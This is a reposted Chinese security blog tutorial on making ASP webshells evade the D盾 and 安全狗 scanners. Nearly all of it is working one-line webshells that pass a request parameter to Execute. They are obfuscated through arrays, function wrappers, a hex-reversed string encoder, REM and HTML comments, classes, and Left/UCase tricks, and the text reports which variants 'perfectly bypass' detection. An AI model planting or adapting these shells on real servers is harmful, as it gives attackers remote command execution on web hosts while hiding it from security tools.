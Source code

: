 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/5193)

现在 asp 不多但是还是有，还是写一篇文章来简单的介绍下 asp 的免杀吧，相对于 php 我们的 asp 还是不够灵活, 其中一些思路参考于 LandGrey 的文章

偷偷介绍下公众号：404 安全

1.  数组
2.  函数
3.  加密
4.  注释符
5.  类
6.  字符串操作

ASP 解释器还有：VBScript

ASP 的注释符号 ： `' 、 REM` 当然如果你使用 vbscript 注释还有`<!-- --> 和//`

ASP 的执行函数 : Eval 、 Execute 、ExecuteGlobal

利用数组来免杀，因为我们在 php 免杀中使用过数组，他的效果还不错，那么我们是否可以利用到 asp 来，当然答案是肯定的

其中定义数组的方法有多种方式，我们才用最简单方式来看看

```
<%
dim a(5)
a(0)=request("404")
eXecUTe(a(0))
%>
```

简单的数组定义 D 盾就不认识了，为什么我会想到用数组来绕过，因为我发现函数调用的时候 D 盾不敏感，包括 asp，php 等

当然你还可以这样用，加上一点循环语句

```
<%
  dim array(1)
  dim c
  array(1)=request("404")
  for each a in array
    c = a & ""
  next
  execute(c)
%>
```

这个是那天 D 盾更新，无意间测试出来的，发现 d 盾对函数传入不是很敏感

```
<%

Function b():
    b = request("404")
End Function


Function f():
    eXecUTe(b())
End Function
f()

%>
```

网上随便找了一段加密算法 但是测试发现 D 盾爆了一级，参数未知

```
<%
eXecUTe(gw_jiemi("920022008400D4002200820047003700560057001700560027000200C60016006700560077007600"))
function gw_jiemi(text)
    const key="gw"
    dim str : str=text
    dim str1
    dim str2 : str2=strreverse(str) 
    for i=1 to len(str2) step 4
        str1=str1 & ChrW(cint("&H" & mid(str2,i,4)))
    next
    gw_jiemi=mid(str1,len(key)+1,len(str)-len(key))
end function
%>
```

既然都提示我们参数的问题了，那么简单的干扰一下吧, 连接个空字符

```
<%
eXecUTe(gw_jiemi("920022008400D4002200820047003700560057001700560027000200C60016006700560077007600")&"")
function gw_jiemi(text)
    const key="gw"
    dim str : str=text
    dim str1
    dim str2 : str2=strreverse(str) 
    for i=1 to len(str2) step 4
        str1=str1 & ChrW(cint("&H" & mid(str2,i,4)))
    next
    gw_jiemi=mid(str1,len(key)+1,len(str)-len(key))
end function
%>
```

解密的算法是

```
function gw_jiami(text)
    const key="gw"
    dim str : str=key & text 
    dim str1
    dim str2
    for i=1 to len(str)
        str2=hex(AscW(mid(str,i,1)))
        for j=1 to 4-len(str2)
            str2="0" & str2
        next
        str1=str1 & str2
    next
    gw_jiami=strreverse(str1)
end function
```

通过一个简单的注释符绕过安全狗还是比较简单的,

```
<%
    a = request("404")
    b = a REM a
    execute(b)
%>
```

怎么绕过 d 盾了想了几分钟发现可以这样

```
<%
<!--
    a = request("404")
    execute(a)
-->
%>
```

在 php 中我们使用类可以很轻松的绕过，但是 asp 使用类现在 d 盾看的很紧，首先看看最简单的类

```
<%

Class LandGrey
  Private Sub Class_Initialize
    execute request("404")
  End Sub
End Class

Set X = New LandGrey

%>
```

利用 Class_Initialize 初始化就调用我们的函数，但是已经不行了，那么我们简单的变形一下

```
<%
Class LandGrey
    private str_title

    public property let setauthor(str)
    execute str REM a
    end property
End Class

Set a= New LandGrey
a.setauthor= request("404")
%>
```

这个 D 盾爆出一级，提示未知参数 str，怎么绕过呢，我们可以用函数的方式把他包裹起来 跟前面方案一样

```
<%
Class LandGrey
    private str_title

    public property let setauthor(str)
    execute(str&"")
    end property
End Class

Set a= New LandGrey
a.setauthor= request("404")
%>
```

但是提示语句没结束语法问题，那就改改，用括号包裹起来调用，同时利用 REM 注释后面的内容，d 盾就会识别括号里面有内容，从而绕过

```
<%
Class LandGrey
    private str_title

    public property let setauthor(str)
    execute(str )REM a)
    end property
End Class

Set a= New LandGrey
a.setauthor= request("404")
%>
```

前面说过他提示的参数没 赋值 那么我们就定义一个局部变量来赋值吧

```
<%
Class LandGrey

private str
    Private Sub Class_Initialize
    str = ""
    End Sub
    public property let setauthor(str)
    execute(str)
    end property

End Class

Set a= New LandGrey
a.setauthor= request("404")
%>
```

前面 php 的 webshell 我们讲过，d 盾是杀参数的，我们如何绕过的思路就是在传入参数这里做文章，先来一个简单的

```
<%
a = request("404")
b = Left(a,99999)
execute(b)
%>
```

D 盾直接爆 4 级，我们再找个函数包裹一下我们的 a 字符串, UCase 大小写转换

```
<%
a = request("404")
b = Left(UCase(a),99999)
execute(b)
%>
```

还是 4 级，那么我们在后面连接一个空格呢, 那么他就能完美绕过

```
<%
a = request("404")
b = Left(UCase(a)&"",99999)
execute(b)
%>
```

虽然 asp 不是很灵活，但是通过探索还是能发现不少姿势，还是那句话多学多练，我们一起从 0 开始

参考:  
[https://xz.aliyun.com/t/2356](https://xz.aliyun.com/t/2356)
